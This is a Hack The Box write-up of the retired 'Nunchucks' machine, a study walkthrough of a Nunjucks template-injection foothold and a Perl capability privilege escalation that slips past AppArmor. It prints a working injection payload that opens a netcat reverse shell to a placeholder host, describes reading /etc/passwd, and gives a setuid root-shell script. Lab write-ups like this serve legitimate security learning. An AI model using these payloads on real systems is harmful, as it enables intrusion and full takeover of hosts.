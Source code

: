 ```yaml
---
title: "Nunchucks HTB"
date: 2021-11-09T17:30:30
categories:
  - study
tags:
  - Linux
  - Web
  - NodeJS
  - SSTI
  - SUID
  - AppArmor
classes: wide
---
```


Nunchucks is a 7 day retired box, it is easy rated and it can be found [here.](https://app.hackthebox.com/machines/Nunchucks)

>*"Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI)."*

<h2> Enumeration</h2>

**Nmap scan results:**

```
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                            
80/tcp  open  http     syn-ack nginx 1.18.0 (Ubuntu)                                                                        
| http-methods:                                                                                                                                                  
|_  Supported Methods: GET HEAD POST OPTIONS                                 
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                      
|_http-title: Did not follow redirect to https://nunchucks.htb/                                                                                                  
443/tcp open  ssl/http syn-ack nginx 1.18.0 (Ubuntu)                                                                     
|_http-server-header: nginx/1.18.0 (Ubuntu)     
|_http-title: Nunchucks - Landing Page                                                                               
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK/localityName=Bournemouth
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
```

<h4>What is the scan telling us?</h4>

- Port 22 is open showing OpenSSH 8.2p1 on Ubuntu.
- Port 80 is open showing a nginx webserver.
- Port 443 shows ssl/http or https nginx webport.

We see the nunchucks.htb domain so we add it to our `/etc/hosts` file.

Navigating to the main page on port 443 and 80 we see: 

<img src="/assets/images/nunchucks/nunchuck0.PNG" alt="Different Vhost found.">

There is a registration and login page. However when we attempt to register or log in we get an error that logins and registrations are temporarily disabled.

**Gobuster:**
We use Gobuster's dir mode and find nothing of note, just things you can find navigating the site. 

However using vhost mode we find the following:

<img src="/assets/images/nunchucks/nunchuck1.PNG" alt="Different Vhost found.">

We add this to our `/etc/hosts` file and navigate to it.

<img src="/assets/images/nunchucks/nunchuck2.PNG" alt="https://store.nunchucks.htb">

From here we try to navigate through all the buttons and find that none of them link to any other page. However, inputting a test email shows that this site may be vulnerable to a Server-Side Template Injection (SSTI). 

<img src="/assets/images/nunchucks/nunchuck3.PNG" alt="Returns our email.">

<h4>What is an SSTI?</h4>

[Portswigger](https://portswigger.net/research/server-side-template-injection) explains SSTI as:

>*"Web applications frequently use template systems such as Twig and FreeMarker to embed dynamic content in web pages and emails. Template Injection occurs when user input is embedded in a template in an unsafe manner."*

We can test for an SSTI by submitting math to the server and seeing what is returned:

<img src="/assets/images/nunchucks/nunchuck4.PNG" alt="It's executing!">

The server has seen `7*7` and has returned 49 to us. It is executing what we give it, essentially an RCE.

<h2>Foothold</h2>

From here we have to understand what underlying template engine is running to see if there are any known vulns. We could test and devise our own manually but I'm not quiteeeeeee there yet.

Using Burpsuite to capture the email submission and seeing what the response is with repeater we see:

<img src="/assets/images/nunchucks/nunchuck5.PNG" alt="Powered by Express">

According to [wikipedia](https://en.wikipedia.org/wiki/Express.js), Express is:

>*"Express.js, or simply Express, is a back end web application framework for Node.js"* 

From here more googling leads us to a list of template engines usable by Express, including one named "Nunjucks".

We google for "Nunjucks SSTI" and find a nice [breakout guide](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine).

There exists a way to print `/etc/passwd`. Changing this to an email format and adding `\` between the double quotes to prevent errors:

<img src="/assets/images/nunchucks/nunchuck6.PNG" alt="Returns /etc/passwd">

Since we know this breakout works on this site we can now execute whatever we want! 

We startup our classic nc listener and find a reverse shell script to insert:

```
{
  "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOURIP YOURPORT >/tmp/f')\")()}}@mail.com"
}
```

We catch this shell, navigate to `/home/david` and see the `user.txt` right there:

<img src="/assets/images/nunchucks/nunchuck7.PNG" alt="User!">

<h2>Privilege Escalation</h2>

From here we notice that the box has a `SUID` tag on it, and use `getcap -r / 2>/dev/null` like so:

<img src="/assets/images/nunchucks/nunchuck8.PNG" alt="Good old setuid.">

We see `/usr/bin/perl = cap_setuid+ep` which we know from [Cap](https://moseskonsue.github.io/writeup/cap/) will allow us to escalate privileges. Checking [GTFObins](https://gtfobins.github.io/gtfobins/perl/) we see a one liner to give us root. 

However running it does... Nothing?

Being completely stuck I check out a great writeup from [0xdf](https://0xdf.gitlab.io/2021/11/02/htb-nunchucks.html). Who explains that the reason why nothing is happening is because of [AppArmor](https://en.wikipedia.org/wiki/AppArmor), from wikipedia:

>*"AppArmor ("Application Armor") is a Linux kernel security module that allows the system administrator to restrict programs' capabilities with per-program profiles"*

AppArmor would have revealed itself if I attempted to run the perl one liner in a script instead. Returning the following:

```bash
Can't open perl script "x": Permission denied
```

0xdf points out through their research they found that there is a [bug](https://bugs.launchpad.net/apparmor/+bug/1911431). This bug means that AppArmor will prevent execution when the binary is invoked via path, but if it's invoked by a SheBang(#) no such protection is offered.

This means we can create a script in `/tmp` with our one liner that looks like:

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```

Which results in:

<img src="/assets/images/nunchucks/nunchuck9.PNG" alt="whoami">

We find the root flag in the usual `/root/root.txt`.


<img src="/assets/images/nunchucks/nunchuck10.PNG" alt="Nice!">


<h4>For next time:</h4>

- The presence of one domain name suggests the possibility of others existing, use Gobuster vhost to discover others.
- Figure out a good workflow for testing sites for OWASP top 10 vulns. {{7/7}} etc. 



